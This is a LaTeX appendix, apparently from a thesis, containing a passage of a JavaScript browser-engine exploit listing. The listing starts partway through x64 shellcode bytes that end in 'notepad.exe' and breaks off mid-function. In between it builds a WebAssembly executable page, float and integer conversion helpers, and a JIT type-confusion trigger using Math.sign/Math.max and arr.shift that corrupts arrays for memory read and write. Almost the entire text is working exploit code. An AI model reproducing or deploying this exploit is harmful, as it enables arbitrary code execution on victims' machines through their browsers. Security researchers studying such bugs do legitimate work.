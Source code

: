 \documentclass[a4paper,twoside,12pt]{book}
\begin{document}
\begin{appendices}
\begin{lstlisting}
	0x41, 0x59, 0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 
	0x52, 0xFF, 0xE0, 0x58, 0x41, 0x59, 0x5A, 0x48, 0x8B, 
	0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48, 0xBA, 
	0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 
	0x8D, 0x8D, 0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 
	0x8B, 0x6F, 0x87, 0xFF, 0xD5, 0xBB, 0xF0, 0xB5, 0xA2, 
	0x56, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF, 0xD5, 
	0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 
	0xFB, 0xE0, 0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 
	0x6A, 0x00, 0x59, 0x41, 0x89, 0xDA, 0xFF, 0xD5, 0x6E, 
	0x6F, 0x74, 0x65, 0x70, 0x61, 0x64, 0x2E, 0x65, 0x78, 
	0x65, 0x00];
    var wasmCode = new Uint8Array([0, 97, 115, 109, 1, 0, 
	0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 
	130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 
	0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 
	6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 
	0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 
	97, 105, 110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 
	132, 128, 128, 128, 0, 0, 65, 42, 11]);
    var wasmModule = new WebAssembly.Module(wasmCode);
    var wasmInstance = new WebAssembly.Instance(wasmModule);
    var main = wasmInstance.exports.main;
    var bf = new ArrayBuffer(8);
    var bfView = new DataView(bf);
    function fLow(f) {
        bfView.setFloat64(0, f, true);
        return (bfView.getUint32(0, true));
    }
    function fHi(f) {
        bfView.setFloat64(0, f, true);
        return (bfView.getUint32(4, true))
    }
    function i2f(low, hi) {
        bfView.setUint32(0, low, true);
        bfView.setUint32(4, hi, true);
        return bfView.getFloat64(0, true);
    }
    function f2big(f) {
        bfView.setFloat64(0, f, true);
        return bfView.getBigUint64(0, true);
    }
    function big2f(b) {
        bfView.setBigUint64(0, b, true);
        return bfView.getFloat64(0, true);
    }
    class LeakArrayBuffer extends ArrayBuffer {
        constructor(size) {
            super(size);
            this.slot = 0xb33f;
        }
    }
    function foo(a) {
        let x = -1;
        if (a) x = 0xFFFFFFFF;
        var arr = new Array(Math.sign(0 - Math.max(0, x, -1)));
        arr.shift();
        let local_arr = Array(2);
        local_arr[0] = 5.1;//4014666666666666
        let buff = new LeakArrayBuffer(0x1000);//byteLength idx=8
        arr[0] = 0x1122;
        return [arr, local_arr, buff];
    }
    for (var i = 0; i < 0x10000; ++i)
        foo(false);
    gc(); gc();
    [corrput_arr, rwarr, corrupt_buff] = foo(true);
    corrput_arr[12] = 0x22444;
    delete corrput_arr;
    function setbackingStore(hi, low) {

\end{lstlisting}
\end{appendices}
\end{document}
